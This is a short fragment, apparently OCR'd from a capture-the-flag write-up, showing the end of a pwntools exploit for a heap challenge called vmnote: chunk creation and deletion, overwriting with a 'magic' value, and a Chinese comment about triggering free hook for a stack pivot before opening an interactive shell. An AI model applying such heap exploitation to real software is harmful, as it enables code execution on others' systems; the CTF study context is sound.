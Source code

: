 ```py
    p.sendline("1")

p.recvuntil("size: ")
p.sendline("80")
p.recvuntil("content: ")
p.send("g")
# gdb.attach(p)
# pause()
create(3,0x50,p64(magic)*2)

delete(0)

# delete 1 会调用 free hook 此时进行栈迁移
p.interactive()
```
原题和所有做题痕迹见  [这里](/attachments/vmnote.zip)